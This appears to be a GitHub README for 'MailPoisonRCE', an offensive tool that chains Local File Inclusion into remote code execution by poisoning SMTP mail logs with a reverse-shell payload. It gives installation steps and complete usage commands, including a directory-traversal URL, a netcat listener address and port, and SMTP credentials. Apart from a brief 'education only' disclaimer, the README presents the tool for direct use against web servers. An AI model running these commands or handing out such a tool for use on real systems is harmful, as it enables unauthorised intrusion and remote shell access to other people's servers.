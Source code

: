 # Mail Log Manipulation

```sh
This tool is for Local File Inclusion to Remote Code Execution via mail log poisoning. 
There are some requirements needed inorder to use the tool
1. Local File Inclusion
2. smtp authentication

The tool simply access the SMTP and send a mail with a reverseshell payload.
next it will setup a netcat listener and sends a get request on the URL 
thats vulnerable to LFI and access the smtp log to pop the shell
```

### Installation

Run the command below to install the required libraries used in the tool.
* pip3
  ```sh
  pip3 install -r requirements.txt
  ```
  
### Usage

  ```sh
Authenticated usage: python3 MailPoisonRCE.py -s 10.11.12.13 -sp 25 -e from@test.com -t test@rcpnt.com -i 127.0.0.1 -p 4444 -u http://10.11.12.13/index.php?page=../../../var/mail/test -us user -pw root

Unauthenticated usage: python3 MailPoisonRCE.py -s 10.11.12.13 -sp 25 -e from@test.com -t test@rcpnt.com -i 127.0.0.1 -p 4444 -u http://10.11.12.13/index.php?page=../../../var/mail/test
  ```

![alt text](https://github.com/Pilum-Murialis/tools/blob/main/MailPoisonRCE/poc.PNG?raw=true)


# Disclaimer
```sh
The tool is for education purpose only. Usage of the tool for attacking the website without consent is illegal. 
The end user of the tool will be responsible for the damage it might cause.
The developer of the tool assume no liability and not responsbile for any misuse and damage.
```

## Authors

[damaidec](https://medium.com/@damaidec)

[Anantha vijay](https://medium.com/@vj35.cool)


